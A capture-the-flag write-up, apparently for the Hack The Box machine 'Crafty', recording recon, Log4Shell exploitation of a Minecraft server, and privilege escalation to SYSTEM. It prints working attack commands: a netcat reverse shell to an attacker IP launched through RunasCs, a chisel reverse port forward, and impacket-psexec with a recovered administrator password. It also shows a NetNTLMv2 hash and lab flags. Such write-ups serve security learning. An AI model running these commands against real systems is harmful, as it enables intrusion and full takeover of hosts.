



Recon
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.249
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://crafty.htb
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
25565/tcp open minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsnikto
┌──(parallels㉿kali)-[~]
└─$ nikto -h http://10.10.11.249
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP: 10.10.11.249
+ Target Hostname: 10.10.11.249
+ Target Port: 80
+ Start Time: 2024-04-08 15:56:35 (GMT2)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/10.0
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://crafty.htb
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /phpimageview.php?pic=javascript:alert(8754): PHP Image View 1.0 is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1724
+ /modules.php?op=modload&name=FAQ&file=index&myfaq=yes&id_cat=1&categories=%3Cimg%20src=javascript:alert(9456);%3E&parent_id=0: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS).
+ /modules.php?letter=%22%3E%3Cimg%20src=javascript:alert(document.cookie);%3E&op=modload&name=Members_List&file=index: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS).
+ /members.asp?SF=%22;}alert(223344);function%20x()\{v%20=%22: Web Wiz Forums ver. 7.01 and below is vulnerable to Cross Site Scripting (XSS). See: OSVDB-4598
+ /forum_members.asp?find=%22;}alert(9823);function%20x()\{v%20=%22: Web Wiz Forums ver. 7.01 and below is vulnerable to Cross Site Scripting (XSS). See: OSVDB-2946
+ 8074 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time: 2024-04-08 16:00:13 (GMT2) (218 seconds)Initial foothold
Log4j
Exploiting Minecraft Servers (Log4j) - Log4j is a widely used logging library in Java applications, including Minecraft servers. In December 2021, a critical vulnerability, dubbed “Log4Shell” or CVE-2021-44228, was discovered in Log4j…
- Install prism launcher (to make minecraft work on kali Linux & arm arch)
- Login to the server
- Clone the repo, install requirements etc
kozmer/log4j-shell-poc - A Proof-Of-Concept for the CVE-2021-44228 vulnerability.
- Start netcat listener →
nc -lvnp 9001 - Install java 8u20 to the current directory (the exploit needs it in order to work)
- Update poc script to make it work on windows

- Start netcat listener →
- Run POC exploit

We got a shell as svc_minecraft
- Found the flag in the user’s Desktop folder → c3093d2896d21e9c83c3d938915d729d
Priv escalation
- Run winpeas
CVE’s
[!] CVE-2019-0836 : VULNERABLE [>] https://exploit-db.com/exploits/46718 [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/ [!] CVE-2019-0841 : VULNERABLE [>] https://github.com/rogue-kdc/CVE-2019-0841 [>] https://rastamouse.me/tags/cve-2019-0841/ [!] CVE-2019-1064 : VULNERABLE [>] https://www.rythmstick.net/posts/cve-2019-1064/ [!] CVE-2019-1130 : VULNERABLE [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear [!] CVE-2019-1253 : VULNERABLE [>] https://github.com/padovah4ck/CVE-2019-1253 [>] https://github.com/sgabe/CVE-2019-1253 [!] CVE-2019-1315 : VULNERABLE [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html [!] CVE-2019-1385 : VULNERABLE [>] https://www.youtube.com/watch?v=K6gHnr-VkAg [!] CVE-2019-1388 : VULNERABLE [>] https://github.com/jas502n/CVE-2019-1388 [!] CVE-2019-1405 : VULNERABLE [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/ [>] https://github.com/apt69/COMahawk [!] CVE-2020-0668 : VULNERABLE [>] https://github.com/itm4n/SysTracingPoc [!] CVE-2020-0683 : VULNERABLE [>] https://github.com/padovah4ck/CVE-2020-0683 [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1 [!] CVE-2020-1013 : VULNERABLE [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/ [*] Finished. Found 12 potential vulnerabilities.accs
CRAFTY\Administrator: Built-in account for administering the computer/domain |->Groups: Administrators,Remote Management Users |->Password: CanChange-NotExpi-Req CRAFTY\DefaultAccount(Disabled): A user account managed by the system. |->Groups: System Managed Accounts Group |->Password: CanChange-NotExpi-NotReq CRAFTY\Guest(Disabled): Built-in account for guest access to the computer/domain |->Groups: Guests |->Password: NotChange-NotExpi-NotReq CRAFTY\jacob |->Groups: Remote Management Users,Users |->Password: CanChange-NotExpi-Req CRAFTY\svc_minecraft |->Groups: Users |->Password: CanChange-NotExpi-Req CRAFTY\WDAGUtilityAccount(Disabled): A user account managed and used by the system for Windows Defender Application Guard scenarios. |->Password: CanChange-Expi-ReqNTLMv2 hash
Version: NetNTLMv2 Hash: svc_minecraft::CRAFTY:1122334455667788:009f6cb99a97d4a70f33a2c8ded9c462:0101000000000000014ed93a918ada0113ec6efdd81cd112000000000800300030000000000000000000000000200000f4f6e11d85f19fa6f8b3adf7e80d6b6e24480e6a9b16a9c92b83025bdb6cde1b0a00100000000000000000000000000000000000090000000000000000000000Scheduled App
(COMPETITOR\Administrator) Minecraft: c:\windows\system32\cmd.exe /c "c:\program files\java\jdk1.8.0_171\bin\java.exe" -Xmx1024M -Xms1024M -jar c:\users\svc_minecraft\server\server.jar Trigger: At log on of any user - Found an interesting plugin file in C:\users\svc_minecraft\server\plugins
- Decompile it using jadx, found a password

→ s67u84zKq8IXw
- lets try running commands in the context of other users using that password
PS C:\Users\svc_minecraft> Invoke-RunasCs -Username administrator -Password s67u84zKq8IXw -Command "Whoami" crafty\administrator - Get a shell as administrator using netcat
Invoke-RunasCs -Username administrator -Password s67u84zKq8IXw -Command "c:\programdata\nc.exe -e powershell.exe 10.10.16.6 7777"Found root flag → 78fccca90c8592301d3e813b117f247a
Getting SYSTEM privs
Note: another approach might be a scheduled task. Sometimes you can use /RU SYSTEMif you have the local administrator account.
- Reverse portwd 445 using chisel
# Kali ./chisel_arm server -p 2222 --reverse # Victim PS C:\users\Administrator\Desktop> .\c.exe client 10.10.16.6:2222 R:445:127.0.0.1:445 - Check smb signing
SMB ::1 445 CRAFTY [*] Windows 10.0 Build 17763 (name:CRAFTY) (domain:c) (signing:False) (SMBv1:False) - Use psexec
┌──(parallels㉿kali)-[~] └─$ impacket-psexec administrator:'s67u84zKq8IXw'@localhost Impacket v0.11.0 - Copyright 2023 Fortra [*] Requesting shares on localhost..... [*] Found writable share ADMIN$ [*] Uploading file RVZqlbaB.exe [*] Opening SVCManager on localhost..... [*] Creating service EqeG on localhost..... [*] Starting service EqeG..... [!] Press help for extra shell commands Microsoft Windows [Version 10.0.17763.5328] (c) 2018 Microsoft Corporation. All rights reserved. C:\Windows\system32> whoami nt authority\system